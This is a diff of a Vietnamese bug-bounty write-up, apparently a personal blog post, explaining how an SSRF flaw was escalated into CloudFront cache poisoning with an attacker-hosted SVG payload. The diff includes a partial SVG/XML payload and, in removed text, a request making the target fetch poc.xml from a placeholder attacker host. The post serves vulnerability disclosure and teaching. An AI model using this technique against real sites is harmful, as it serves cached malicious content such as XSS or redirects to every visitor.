

Before and after one commit to thewindghost/thewindghost.github.io, a Markdown page: posts/SSRF-induced-Cache-Poisoning-Logic-Bug.md, 3 parts joined by grey strips. Shown at 85% size. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/posts/SSRF-induced-Cache-Poisoning-Logic-Bug.md
+++ b/posts/SSRF-induced-Cache-Poisoning-Logic-Bug.md
@@ -8,5 +10,6 @@ date: 2025-05-04 10:15:00
 
 ---
+## 1. Phân tích lỗ hổng Cache Poisoning thông qua Server-Side Request Forgery ?
 
-## 1. Nguyên lý lỗi
+Được rồi tại sao mình lại nói như vậy? Có lẻ mọi người sẽ khá thắc mắc, lỗ hổng này bắt nguồn từ việc tìm được `Proxy Controller Endpoint` vì vậy mình đã POC được `SSRF` nhưng ở đây chỉ là `P5 Informational` vì `Program` họ phân định rằng `SSRF` chỉ tương tác được với dịch vụ bên ngoài hoặc tương tác với `Server Attacker` đều là `Low-Impact`. Vì vậy họ nói rằng mình nên tìm cách nâng `Impact` của nó lên cao hơn họ sẽ đánh giá lại!
 
@@ -18,21 +17,32 @@ date: 2025-05-04 10:15:00
 
 ---
+## 2. Phát Hiện Cache Poisoning như nào ?
 
-## 2. Phân biệt với Cache‑Poisoning “thông thường”
+Trong quá trình đang POC `SSRF` thì 1 anh hợp tác cùng phát hiện nó ép sử dụng `Response Header` như sau: `image/svg+xml` thì trước đó khi gửi `Request` cho nó `Fetch` tới Web Attacker mình đặt là `text/html` vì vậy luôn luôn báo 400 vì vậy anh ấy đã thử từng cái `Response Header` sau khi thử thành công thì khi sử dụng `image/svg+xml` thì là status 200.
 
-| Cache‑poisoning Thông thường       | SSRF‑Logic Bug (Biến thể)     |
-|------------------------------------|-------------------------------|
-| Client gửi payload trực tiếp       | Payload qua SSRF intermediary |
-| CDN cache trực tiếp response       | CDN cache response SSRF trả về|
-| Điều khiển bằng header (Host/Vary) | Lỗi flow “Fetch → Cache → Serve”|
+- Đây là lúc dùng `text/html` status là 400
+
+![alt text](/posts/image-post/cache-poisoning-via-fetching-data/4.jpg)
+
+- Còn đây là lúc dùng `image/svg+xml`
+
+![alt text](/posts/image-post/cache-poisoning-via-fetching-data/3.jpg)
+
+hãy để ý phần `Content-Type` ở dòng thứ 2 của `Response Header` nó chấp nhận với `image/svg+xml` và nếu các bạn tinh ý có thể thấy rằng phần tấm ảnh thứ 4 hay không ở phần cuối `Response Header` sẽ thấy nó đã Save `Cache` vào `CloudFront` với `Response Header` là `X-Cache: Hit fromt cloudfront` và cái quan trọng nhất vẫn là cái `Age: 5`. Nghĩa là thật sự nó đã Save Vào `Cache`. Và 1 điều quan trọng nữa thật sự đây là 1 `biến thể` mình lần đầu gặp vì thông thường `Cache Poisoning` sẽ không save `Cache` thông qua `Fetch` tới `Server Attacker`.
+
+Note: Mình sử dụng https://requestrepo.com/#/requests để thực hiện thay đổi `Response Header`
+![alt text](/posts/image-post/cache-poisoning-via-fetching-data/5.png)
 
 ---
+## 3. Làm Sao mình có thể chứng minh chuẩn cho Vendor hiểu rằng thật sự là Cache Poisoning
 
-## 3. Proof‑of‑Concept
+Dĩ Nhiên là phải cho họ thấy mình tấn công 1 người dùng như nào thông qua `Cache Poisoning` rồi!
 
-### 3.1 Payload SVG/XML (`poc.xml`)
+Mình có `Payload` như sau:
 
+`Poc.xml`
 ```xml
+- Payload xml
 <?xml version="1.0" encoding="UTF-8" standalone="no"?>
 <svg xmlns="http://www.w3.org/2000/svg" version="1.1">
   <foreignObject width="100%" height="100%">
@@ -71,26 +113,30 @@ if __name__ == '__main__':
 
-- Gửi request đến SSRF endpoint:
-  ```http
-  GET /media?u=http://VPS:5505/poc.xml HTTP/2
-  Host: vuln.example.com
-  ```
-- Response header trả về có:
-  ```
-  X-Cache: Hit from cloudfront
-  Age: 5
-  ```
-  → Chứng tỏ payload đã được cache.
+## 5. Sơ đồ và giải thích chi tiết hơn
 
-![CloudFront Hit](/posts/image-post/cache-poisoning-via-fetching-data/7.jpg)
+### + Phân biệt với cache poisoning “thông thường”
+
+- **Cache poisoning thường**
+  1. Attacker gửi request có payload ngay từ client.
+  2. Server hoặc CDN nhúng payload vào response.
+  3. CDN cache response và trả lại cho các client tiếp theo.
+  4. Công việc chính: tuỳ biến tiêu đề (`Host`, `Vary`, `Cache-Control`…) để điều khiển key cache khác nhau.
+
+- **Biến thể logic bug này**
+  1. **Trung gian là SSRF/Fetch**
+     - Payload (SVG/XML) được fetch từ **server attacker**, không phải từ browser nạn nhân.
+  2. **Server chính** vô tình để `Fetch` trả về response với header `Content-Type: image/svg+xml`, nên **CloudFront tự động cache**.
+  3. **Logic lặp lại**: sau khi cache, dù nạn nhân gửi yêu cầu nhiều lần, request không được chuyển tới SSRF nữa, vẫn sử dụng bản cache cũ—gắn chặt payload attacker lên nội dung trả về.
 
 ---
 
-## 4. Hậu quả
+### + Tại sao gọi là “logic bug” đúng hơn?
 
-- Payload attacker “đóng băng” trong CDN, **tất cả user** đều nhận nội dung độc hại mà không cần trigger SSRF lại.
-- Cho phép **tấn công hàng loạt**: redirect nạn nhân, XSS, download file độc hại…
+1. **Lỗi thiết kế flow** chứ không chỉ là cấu hình cache sai.
+2. **Server attacker** được phép fetch bất kỳ URL nào và trả về thẳng cho CDN.
+3. **Flow “Fetch → Cache → Serve”** không có kiểm soát (whitelist domain, validate header response…), dẫn tới SSRF bị “leo thang” thành cache poisoning.
+4. Hậu quả nghiêm trọng hơn: không chỉ cache sai nội dung, mà còn **tấn công hàng loạt nạn nhân** thông qua payload SVG/redirect, XSS, Download File Malicious.
 
 ---
 
-## 5. Mitigation
+### + Flow diagram
 
````
Also changed, not shown: other parts of posts/SSRF-induced-Cache-Poisoning-Logic-Bug.md (+47 -20 lines).
